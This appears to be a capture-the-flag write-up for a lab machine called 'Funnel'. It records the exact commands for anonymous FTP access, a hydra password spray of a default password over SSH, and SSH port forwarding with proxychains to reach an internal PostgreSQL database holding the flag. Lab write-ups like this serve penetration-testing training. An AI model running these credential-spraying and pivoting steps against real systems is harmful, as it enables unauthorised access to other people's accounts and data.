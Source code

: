 # Funnel

IPv4: 10.129.228.195

## Enumeration/Scanning

- sudo nmap -sV -sC -Pn 10.129.228.195 -p-
    
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    |_drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup
    | ftp-syst:
    |   STAT:
    | FTP server status:
    |      Connected to ::ffff:10.10.16.173
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 3
    |      vsFTPd 3.0.3 - secure, fast, stable
    |*End of status
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
    |   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
    |*  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 23.27 seconds
    

Anonymous login to ftp pulled 2 files

password_policy.pdf and welcome_28112022

- welcome_28112022
    
    optimus@funnel.htb albert@funnel.htb andreas@funnel.htb christine@funnel.htb maria@funnel.htb
    
    read the password policy pdf
    

- xdg-open password_policy.pdf
    
    default password funnel123#!#
    

create a user list and run a password spray

hydra -L users.txt -p 'funnel123#!#' ssh://10.129.228.195

login: christine password: funnel123#!#

## Exploitation

## Privilege Escalation

netstat -ano or ss -tln

127.0.0.1:5432

Port 5432

https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql

postgresql

local port forwarding

ssh -L 1234:localhost:5432 christine@10.129.228.195

verify it was set up correctly

nmap -sV -sC -p1234 localhost

1234 shows postgresql 

Another way is dynamic port forwarding and proxy chains

ssh -D 9050 christine@10.129.228.195

nano /etc/proxychains.conf

- socks4 127.0.0.1 9050

proxychains4 nmap -sV -sC -p5432 localhost

Shows we can access postgresql through proxychains

You can start a bash instance with proxychains to keep the chains consistent without having to add the proxychains4 command to your liners.

proxychains4 -q bash

nmap -sV -sC -p5432 localhost

\list 

\c secrets

\d

SELECT * FROM flag;

flag found

## Post-exploitation

None

